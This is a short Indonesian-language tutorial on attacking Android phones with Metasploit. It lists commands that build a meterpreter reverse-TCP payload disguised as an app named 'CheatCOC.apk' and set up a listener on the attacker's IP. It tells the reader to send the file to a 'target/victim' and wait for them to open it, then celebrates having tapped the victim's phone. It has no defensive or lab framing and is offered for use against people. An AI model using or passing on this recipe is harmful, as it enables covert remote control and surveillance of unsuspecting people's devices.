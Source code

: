 # Metasploit

# Android Attack 

 
> $sudo apt update

> $sudo apt upgrade

> $ifconfig (untuk mengetahui ip)

> $sudo su (masuk ke menu root)

Membuat payload dengan perintah

> #msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.111.61(ip yang di cek tadi) LPORT=4321 R> CheatCOC.apk

tunggu dan jika sudah selesai cek aplikasi yang sudah di buat tadi di folder /home/kali

kemudian kirim aplikasi ke target/korban

buat exploit handler dengan perintah

> #etc/init.d/postgresql start

> #msfconsole

> #use multi/handler

> #set payload android/meterpreter/reverse_tcp

> #set LHOST 192.168.111.61

> #set LPORT 4321

> #exploit

kemudian tunggu target/korban membuka aplikasi yang sudah di kirim tadi

> #? (untuk melihat menu perintah apa saja yang dapat dilakukan)

selamat kamu telah menyadap hp target/korban mu :)
